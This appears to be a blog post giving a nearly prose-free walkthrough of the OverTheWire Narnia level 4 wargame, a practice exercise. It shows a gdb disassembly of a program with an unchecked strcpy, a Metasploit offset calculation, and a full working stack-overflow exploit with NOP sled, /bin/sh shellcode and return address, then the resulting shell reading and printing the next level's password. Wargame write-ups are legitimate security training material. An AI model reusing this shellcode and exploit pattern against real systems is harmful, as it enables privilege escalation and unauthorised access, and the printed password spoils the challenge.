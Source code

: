 +++
title = "Over the wire - narnia04"
description = "Over the wire - narnia04"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-04"
project_url = "https://greyhat.dk/over-the-wire-narnia-04"
type = "post"
+++



(gdb) disassemble main
Dump of assembler code for function main:
   0x080484ad <+0>:	push   ebp
   0x080484ae <+1>:	mov    ebp,esp
   0x080484b0 <+3>:	and    esp,0xfffffff0
   0x080484b3 <+6>:	sub    esp,0x120 ; 288 
   0x080484b9 <+12>:	mov    DWORD PTR [esp+0x11c],0x0
   0x080484c4 <+23>:	jmp    0x8048511 <main+100>
   0x080484c6 <+25>:	mov    eax,ds:0x80497e0 ; <environ@@GLIBC_2.0>:	"`\327\377\377"
   0x080484cb <+30>:	mov    edx,DWORD PTR [esp+0x11c]
   0x080484d2 <+37>:	shl    edx,0x2
   0x080484d5 <+40>:	add    eax,edx
   0x080484d7 <+42>:	mov    eax,DWORD PTR [eax]
   0x080484d9 <+44>:	mov    DWORD PTR [esp],eax
   0x080484dc <+47>:	call   0x8048380 <strlen@plt>
   0x080484e1 <+52>:	mov    edx,DWORD PTR ds:0x80497e0
   0x080484e7 <+58>:	mov    ecx,DWORD PTR [esp+0x11c]
   0x080484ee <+65>:	shl    ecx,0x2
   0x080484f1 <+68>:	add    edx,ecx
   0x080484f3 <+70>:	mov    edx,DWORD PTR [edx]
   0x080484f5 <+72>:	mov    DWORD PTR [esp+0x8],eax
   0x080484f9 <+76>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048501 <+84>:	mov    DWORD PTR [esp],edx
   0x08048504 <+87>:	call   0x80483a0 <memset@plt>
   0x08048509 <+92>:	add    DWORD PTR [esp+0x11c],0x1
   0x08048511 <+100>:	mov    eax,ds:0x80497e0
   0x08048516 <+105>:	mov    edx,DWORD PTR [esp+0x11c]
   0x0804851d <+112>:	shl    edx,0x2
   0x08048520 <+115>:	add    eax,edx
   0x08048522 <+117>:	mov    eax,DWORD PTR [eax]
   0x08048524 <+119>:	test   eax,eax
   0x08048526 <+121>:	jne    0x80484c6 <main+25>
   0x08048528 <+123>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804852c <+127>:	jle    0x8048546 <main+153>
   0x0804852e <+129>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048531 <+132>:	add    eax,0x4
   0x08048534 <+135>:	mov    eax,DWORD PTR [eax]
   0x08048536 <+137>:	mov    DWORD PTR [esp+0x4],eax
   0x0804853a <+141>:	lea    eax,[esp+0x1c]
   0x0804853e <+145>:	mov    DWORD PTR [esp],eax
   0x08048541 <+148>:	call   0x8048360 <strcpy@plt>
   0x08048546 <+153>:	mov    eax,0x0
   0x0804854b <+158>:	leave
   0x0804854c <+159>:	ret
End of assembler dump.


kgn@kali:~$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 0x316a4130
[*] Exact match at offset 272

narnia4@melinda:/tmp/d4$ /narnia/narnia4 $(python -c 'print "\x90"*219 + "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90\xd7\xff\xff"')
$ whoami
narnia5
$ cat /etc/narnia_pass/narnia5
faimahchiy

